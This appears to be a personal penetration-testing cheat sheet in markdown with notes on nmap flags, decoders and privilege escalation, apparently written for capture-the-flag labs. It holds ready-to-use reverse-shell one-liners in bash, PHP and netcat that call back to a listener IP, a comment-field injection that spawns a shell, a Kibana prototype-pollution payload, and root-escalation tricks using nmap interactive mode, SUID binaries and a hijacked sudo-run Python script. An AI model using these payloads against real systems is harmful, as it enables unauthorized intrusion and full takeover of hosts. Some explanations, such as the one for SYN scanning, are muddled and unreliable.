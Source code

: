 *
-sC flag in nmap runs a set of default NSE scripts, some of them are intrusive so this should not be run against real machines.

*
-A flag means agressive. It consists of 
-A: Enable OS detection, version detection, script scanning, and traceroute

*
nmap run without sudo does TCP scan (-sT) and with sudo SYN scan (-sS). SYYN scan is better as it is a stealth one - sends RST flag to server so it avoids getting detected by firewall (for example). On the other side, it can destabilize weak applications on a server .

*
To check if there is a nse script for X service:

`grep "X" /usr/share/nmap/scripts/script.db`

*
Getting rev shell when there is a chance to write a comment

`<img src=http://10.6.46.150/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.6.46.150 '$IFS'4444')>`

 
*
SPAWNING INTTERACTING SHELL WITH PYTHON

`python3 -c 'import pty;pty.spawn("/bin/bash")'`   

*
Listing all binaries with suid permission

`find / -perm -u=s -type f 2>/dev/null`

*
link to access a modified WP theme - `404.php` (to get rev shell)

`http://10.10.142.159/wp-content/themes/twentyfifteen/404.php`

*
if there is a filtering, it is needed to add command in backslashes e.g `l\s -la`

*
PHP REV SHELL ONE LINER

`php -r '$sock=fsockopen("10.6.46.150",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`

*
BASH REV SHELL ONELINER

`bash -i &>/dev/tcp/10.6.46.150/4444 <&1`

*
There are many different converters to john format

`bin2john / zip2john / gpg2john`

*
7z is a file to extract

*
binwalk -->> tool to check of there is a zip file inside .png image

`binwalk -e file`

*
NMAP SHELL

Old version of nmap can be used to escalate to root

`nmap --version` to check version

`nmap --interactive` to enter interacttive mode

and then `!sh` to get root

*
BRAINFUCK decoder

`https://www.splitbrain.org/_static/ook/`

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>++++++++++++++.------------.+++++.>+++++++++++++++++++++++.<<++++++++++++++++++.>>-------------------.---------.++++++++++++++.++++++++++++.<++++++++++++++++++.+++++++++.<+++.+.>----.>++++.

*
XOR DECODER

`http://xor.pw/#`

*
SPEECH TO TEXT CONVERTER

`https://speech-to-text-demo.ng.bluemix.net/`


*
PHP 5 is vulnerable to "null byte injection" 

TL;DR adding '\00' in the end of command.

https://www.cvedetails.com/cve/CVE-2006-7243/

*
Becoming root with python script and with no read/write rights:

`mv script.py script.py.bak` ---> renaming original script

`echo "import pty" > script.py` ---> adding pty library = pseudo terminal utilities

`echo "pty.spawn('/bin/bash')" >> script.py` ---> adding a spawn function

and executing a script with path given in `sudo -l` e.g `sudo -u root /usr/bin/python /home/script.py`


*
`wget -r` downloads all files of a directory


*
Kibana runs usually on port `5601`

It is always good to check it's version and if it is vulnerable to `protype pollution`.

TL;DR We run netcat and inject a payload in Timelion:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.6.46.150/4444 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

*
FINDING CAPABILITIES
`getcap -r / 2>/dev/null` 